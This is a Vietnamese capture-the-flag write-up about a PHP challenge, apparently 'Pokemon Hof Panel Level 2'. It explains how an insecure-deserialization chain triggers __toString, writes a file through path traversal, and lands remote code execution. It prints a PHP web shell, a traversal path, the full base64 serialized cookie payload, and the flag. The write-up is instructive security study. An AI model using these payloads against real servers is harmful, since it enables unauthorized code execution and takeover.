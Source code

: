 # Pokemon Hof Panel Level 2 

> bài này sau khi giải kết thúc thì mình đọc wu của các anh thì mới ngộ ra ( lúc làm mình đã có ý tưởng nhưng mà ẩu quá nên bỏ :> gà quá huhu)

Bài này thì cơ bản vẫn giống bài level1 nhưng bài này yêu cầu chúng ta RCE dựa vào các method_magic trong php như *__contructer*, *__destructer*, *__toString*

chúng ta cùng nhìn vào *class Utils*

![Alt text](image.png)

bạn đấy hàm to_String() , nó tự gọi hàm  writelog() , khi mà object của mình được sử dụng như một String , nhìn vào đây :

```
  file_put_contents("/tmp/logs/".date('H_i_s').$this->logfile, $this->error);
```
tham số 1 chính là postion mà log file được lưu , tham số thứ hai là content của file đó 
nếu như giờ phần content đó là shell code và file name là file PHP thì mình đã RCE được đúng không ? 
Vấn đề nằm ở đây là : 
   - Làm sao back folder vì tmps/logs :  người dùng bình không vào được ? 
   vậy payload cần truyền vào đoạn đó là :  
   ```
   ../../../../../var/www/html/khanh.php
   ```
bởi vì server là apache **Server: Apache/2.4.57 (Debian)**
  - Shell code : 
  ```
  <?php   system(\$_GET['cmd']); ?>
  ```
  - Làm sao trigger được *__ToString()* chạy được , ( mình  bị ngu đoạn này trong thời gian giải diễn ra @@ ), để ý src của  nó thì thấy khi isChampion của user -> true thì mình vào được và nó có nối chuỗi với $user->name ( sẽ ra sao nếu $user->name của mình chính là object của class Utils -> có phải nó sẽ trigger được toString không ?)
  tiến mình ghép các payload lại hoàn chỉnh như sau  : 

  ![Alt text](image-1.png)
 
 ```
 Tzo3OiJUcmFpbmVyIjozOntzOjQ6Im5hbWUiO086NToiVXRpbHMiOjI6e3M6NToiZXJyb3IiO3M6MzE6Ijw/cGhwICBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4iO3M6NzoibG9nZmlsZSI7czozNzoiLi4vLi4vLi4vLi4vLi4vdmFyL3d3dy9odG1sL2toYW5oLnBocCI7fXM6Nzoic3RhcnRlciI7TjtzOjEwOiJpc0NoYW1waW9uIjtiOjE7fQ==
 ```
  giờ lấy nó thay vào biến cookie và send là chúng ta sẽ up được shell code 

  ![Alt text](image-2.png)
  
  giờ thì lấy flag ra thôi !

  # FLAG 

  ```
  KCSC{w3lc0me_t0_h4ll_0f_f4m3}
  ```
